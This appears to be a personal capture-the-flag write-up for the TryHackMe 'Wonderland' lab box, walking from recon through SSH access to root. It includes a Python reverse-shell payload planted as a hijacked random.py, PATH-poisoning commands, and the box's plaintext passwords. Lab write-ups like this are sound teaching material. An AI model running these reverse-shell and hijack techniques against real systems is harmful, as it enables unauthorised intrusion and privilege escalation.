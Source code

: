 -----------------------------------------------
# THM Wonderland
Tags:  #Hacking #Writeup 
Creation date: 2021-10-04

-----------------------------------------------

## [[recon]]

### [[Nmap]] Scan
![[alice-wonderland-nmap.png]]
> Nmap scan of target box

Ports open:
-	22 (SSH)
-	80 (Web Server)


### Directory Scanning

Using [[Gobuster]]

Scanning for directories on the webserver leads to `http://<ip>/r/a/b/b/i/t/`.

![[alice-homepage.png]]

#### Source code

Checking the source code for this page reveals a string that looks like an SHH user/pass combination.

`style="display:none;">alice:HowDothTheLittleCrocodileImproveHisShiningTail`

## Alice > Rabbit

Using this combination as an SSH user/pass combination gains us access to the target machine.

![[alice-wonderland-ssh-alice.png]]


### sudo -l

Running `sudo -l` tells us we can run `/usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py` as user `rabbit`.

![[alice-sudo-l.png]]


Checking the file `walrus_and_the_carpenter.py` shows us that it is importing the library file `random.py`.

![[alice-walrus-random.png]]

We can create our own random.py that the file will read first before the one in `/var/lib/` that throws us a shell we have to catch with a listener as user rabbit.

### Create random.py to throw shell as rabbit to listener.

Creating a new `random.py` file in the home directory allows us to inject malicious code into the running of `walrus_and_the_carpenter.py`. ([[Path Poisoning]])

Created `random.py` file:

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<host_addr>",<port>))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

Now when the python code is run using sudo to change to the user `rabbit` we gain a shell as `rabbit`:

## Rabbit > Hatter

Enumerating the home directory of user `rabbit` gives us a file called `teaParty`. This file has an SUID bit set by the user `hatter`. Running this file gives us a segmentation so it could be vulnerable to an overflow attack. Trying to read the contents of the file gives away that it is using the `date` command. We can poison the path with a new date file that contains `/bin/sh` in order to gain a shell as `hatter`. ([[Path Poisoning]])

`echo "/bin/sh" > /tmp/date`
`export PATH=/tmp:$PATH`

Running the `teaParty` file now will spawn a shell as `hatter`.

##### SHH in as hatter for better shell

Inside hatters home directory is a file `password.txt`. This can be used to SSH back into the machine for a nicer environment for use.

## Hatter > Root

### Run linpeas on target machine, shows pearl as able to set SUID bit

![[alice-linpeas-output.png]]

#### GTFO bins for pearl, use cap_set payload 

![[alice-perl-setuid.png]]

##### read root.txt in /home/alice/ and user.txt in /home/root/ (everything is upside down here)


## General Notes

alice password: HowDothTheLittleCrocodileImproveHisShiningTail

hatter password: WhyIsARavenLikeAWritingDesk?